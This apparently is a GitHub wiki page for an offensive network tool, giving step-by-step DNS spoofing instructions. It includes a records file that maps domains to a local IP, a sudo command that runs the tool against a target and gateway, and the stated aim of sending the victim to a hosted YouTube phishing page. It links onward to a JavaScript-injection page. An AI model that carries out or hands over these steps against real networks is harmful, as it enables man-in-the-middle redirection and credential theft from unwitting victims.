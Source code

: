 # [wiki]::DNS spoofing
<ol>
  <li>Write this to a file:<br><code>{ "mydomain.it.": "192.168.1.113", "otherdomain.com.": "192.168.1.113" }</code></li>
  <li>Discover your target's ip and gateway ip: you can use <a href="https://github.com/n0nexist/subdisc">subdisc</a> for this task.</li>
  <li>Run: <code>sudo python3 main.py [target ip] [gateway ip] dns records.json</code></li>
  <li>New dns requests to mydomain.it and otherdomain.com will make the target go to <code>192.168.1.113</code>,
    where the <a href="https://github.com/n0nexist/Youtube-Phishing-Page">Youtube Phishing Page</a> is being hosted.</li>
</ol>

# Screenshots
![screenshot](https://user-images.githubusercontent.com/111337838/226946833-8b4fb975-a062-4c31-a2d5-e6fcbb10e6cd.png)<br>
![screen2](https://user-images.githubusercontent.com/111337838/226946732-030af7ba-d669-4d48-8270-7fb38d50ea23.jpg)
 
#
<h3>Next wiki page: <a href="https://github.com/n0nexist/Trafficante/blob/main/wiki/js-injection.md">js injection</a></h3>
